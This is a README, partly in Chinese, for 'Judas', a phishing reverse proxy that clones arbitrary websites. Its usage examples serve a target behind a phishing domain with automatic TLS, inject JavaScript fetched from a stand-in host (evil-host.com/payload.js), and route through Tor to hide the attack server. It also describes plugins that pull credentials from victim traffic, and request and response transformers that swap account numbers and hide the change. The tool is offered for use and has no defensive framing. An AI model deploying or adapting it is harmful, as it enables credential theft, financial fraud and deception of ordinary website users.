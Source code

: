 Judas
=====
Judas 是一个可扩展化的钓鱼代理.
通过快速克隆任意网站。在任意网站中植入钓鱼 js 进行钓鱼。本项目克隆自 [JonCooperWorks/judas](https://github.com/JonCooperWorks/judas)。并对其进行稍微修改

```
Usage of judas:
    -address string
        Address and port to run proxy service on. Format address:port. (default "localhost:8080")
  -cookie-domain string
        set Cookies Domain
  -inject-js string
        URL to a JavaScript file you want injected.
  -inject-url string
        target URL to a JavaScript file you want injected. default * is all (default "*")
  -insecure
        Listen without TLS.
  -insecure-target
        Not verify SSL certificate from target host.
  -plugins string
        Colon separated file path to plugin binaries.
  -proxy string
        Optional upstream proxy. Useful for torification or debugging. Supports HTTPS and SOCKS5 based on the URL. For example, http://localhost:8080 or socks5://localhost:9150.
  -proxy-ca-cert string
        Proxy CA cert for signed requests
  -proxy-ca-key string
        Proxy CA key for signed requests
  -ssl-hostname string
        Hostname for SSL certificate
  -target string
        The website we want to phish.
  -with-profiler
        Attach profiler to instance.

```

Building
--------
To build `judas`, simply run `go build`.
 ```
 go build cmd/judas.go
 ```


Usage
-----
The target ```--target``` flag is required.
`judas` will use Let's Encrypt to automatically create SSL certificates for website, simply pass the `--ssl-hostname` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com
```

If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas \
    --target https://target-url.com \
    --insecure
```

If you want to accept self-signed SSL certificate from target host, pass the ```--insecure-target``` flag.
This is useful for passing it through an intercepting proxy like Burp Suite for debugging purposes.

Example:
```
./judas \
    --target https://target-url-with-self-signed-cert.com \
    --proxy http://localhost:8080 \
    --insecure-target
```


It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.
Judas supports SOCKS5 and HTTP proxies.
HTTP proxies must being with `http://` and socks5 proxies must begin with `socks5://`

Example:
```
./judas \
    --target https://torwebsite.onion \
    --ssl-hostname phishingsite.com \
    --proxy socks5://localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas \
    --target https://target-url.com \
    --ssl-hostname phishingsite.com \
    --inject-js https://evil-host.com/payload.js
```
## 注入特定的 url
```shell

judas.go --target  https://target-url.com \
     --insecure --address=10.10.200.1:8080 \
     --inject-js= https://evil-host.com/payload.js \
     --inject-url="/index.php/Index/index"
```

Plugins
-------
Judas can be extended using [Go plugins](https://golang.org/pkg/plugin/). 
An `judas` plugin is a regular Go plugin with a function called `New` that implements `judas.InitializerFunc`.
You can use plugins to save request-response transactions to disk for further analysis, or pull credentials and sensitive information out of requests and responses on the fly.
Plugins run in their own goroutine and judas will recover from panics, so you don't need to worry too much about what you do in the plugins.
You should configure your plugins using [environment variables](https://golang.org/pkg/os/#Getenv).

```
// InitializerFunc is a go function that should be exported by a function package.
// It should be named "New".
// Your InitializerFunc should return an instance of your Listener with a reference to judas's logger for consistent logging.
type InitializerFunc func(*log.Logger) (Listener, error)
```

The `judas.Listener` interface has one method: `Listen`.

```
// Listener implementations will be given a stream of HTTPExchanges to let plugins capture valuable information out of request-response transactions.
type Listener interface {
	Listen(<-chan *HTTPExchange)
}
```

`Listen` implementations will receive a stream of  `judas.HTTPExchange`.
These contain the `judas.Request`, the payload and the `judas.Response`, along with the target.

```
// HTTPExchange contains the request sent by the user to us and the response received from the target server.
// Listeners can use this struct to pull information out of requests and responses.
type HTTPExchange struct {
	Request  *Request
	Response *Response
	Target   *url.URL
}
```

Plugins can also modify requests after they come from the victim and responses after they're returned from the server.
This is useful when you want to modify a request on the fly, like replacing an account number with yours.
To take advantage of this, simply create a custom `RequestTransformer` or `ResponseTransformer`.

```
// RequestTransformer modifies a request before it is sent to the target website.
// This can be used to hijack victim actions, like replacing an account number with ours.
// Delays in this function will slow down the phishing site for the victim.
// Your RequestTransformer should be a function called "RequestTransformer"
type RequestTransformer func(*http.Request) error

// ResponseTransformer modifies a response before it is returned to the victim.
// You can use ResponseTransformers to hide any visible results of a RequestTransformer.
// Delays in this function will slow down the phishing site for the victim.
// Your ResponseTransformer should be a function called "ResponseTransformer"
type ResponseTransformer func(*http.Response) error
```

You only have to implement the methods you're using.
You can put compiled plugins in a directory and pass them with the `--plugins` flag.
Plugins are colon separated file paths.

Example:
```
judas \
     --target https://www.target.com \
     --insecure \
     --address localhost:9000 \
     --proxy http://localhost:8080 \
     --insecure-target \
     --plugins ./searchloggingplugin.so:./linksloggingplugin.so
```

See [examples/searchloggingplugin/searchloggingplugin.go](https://github.com/JonCooperWorks/judas/tree/master/examples/searchloggingplugin/searchloggingplugin.go)

You can build a plugin using this command:
```
go build -buildmode=plugin examples/searchloggingplugin/searchloggingplugin.go
```

### 修复一些bug
** Location 跳转 和目标域名不同域名跳转不变。相同跳转到代理地址   
** 可选注入到特定 URL 中不区分大小写   
** 解决 cookie 跨域导致无法登录   
### 注意
1. 使用域名或者特定的IP 不要使 0.0.0.0 这类

##  待做功能
1. 域名绑定
支持多个目标
